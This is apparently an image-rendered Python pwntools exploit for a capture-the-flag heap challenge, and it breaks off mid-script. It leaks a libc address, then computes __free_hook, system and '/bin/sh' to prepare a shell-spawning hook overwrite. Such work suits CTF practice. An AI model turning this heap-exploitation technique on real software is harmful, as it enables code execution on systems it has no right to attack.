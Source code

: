     r.sendlineafter(">\n", "2")
    r.sendlineafter(":\n", str(idx))

def keys_modify(idx, size, content):
    r.sendlineafter(">\n", "1")
    r.sendlineafter(">\n", "3")
    r.sendlineafter(":\n", str(idx))
    r.sendlineafter(":\n", str(size))
    r.sendafter(":\n", (content))
    print("Modified with: " + str(content))

def keys_leak(idx):
    r.sendlineafter(">\n", "1")
    r.sendlineafter(">\n", "4")
    r.sendlineafter(":\n", str(idx))
    r.recvuntil("Here is your content:")
    x = r.recvline(8)
    x = r.recv(6)
    print("raw: " + str(x))
    return x.replace(b"\x0a",b'').replace(b"\x20",b'').replace(b"Do",b"")

def content_add(size):
    r.sendlineafter(">\n", "2")
    r.sendlineafter(">\n", "1")
    r.sendlineafter(":\n", str(size))

def content_delete(idx):
    r.sendlineafter(">\n","2")
    r.sendlineafter(">\n","2")
    r.sendlineafter("Enter the item you want to remove:\n", str(idx))
    print("removing-" + str(idx))

def content_modify(idx, key, size, content):
    r.sendlineafter(">\n", "2")
    r.sendlineafter(">\n", "3")
    r.sendlineafter(":\n", str(idx))
    r.sendlineafter(":\n", str(key))
    r.sendlineafter(":\n", str(size))
    r.sendafter(":\n", (content))

def exploit(r):
    attach(r)
    keys_add(3000)
    keys_add(3000)
    
    keys_delete(0)
    keys_delete(1)
    keys_add(33)
    keys_modify(0, 32, "B")
    libc = ELF("./libc.so.6")
    # libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
    libc_leak = u64(keys_leak(0).ljust(8, b"\x00"))
    libc_base = libc_leak - 0x1ecb42
    libc_free_hook = libc_base + libc.symbols['__free_hook']
    libc_system = libc_base + libc.symbols['system']
    libc_binsh = libc_base + next(libc.search(b"/bin/sh"))

    print("leak: ",hex(libc_leak))
    print("libc_base: ",hex(libc_base))
    print("__free_hook: ",hex(libc_free_hook))
    print("system: ", hex(libc_system))
    print("/bin/sh: ", hex(libc_binsh))

    content_add(20)
    content_add(20)
    content_add(20)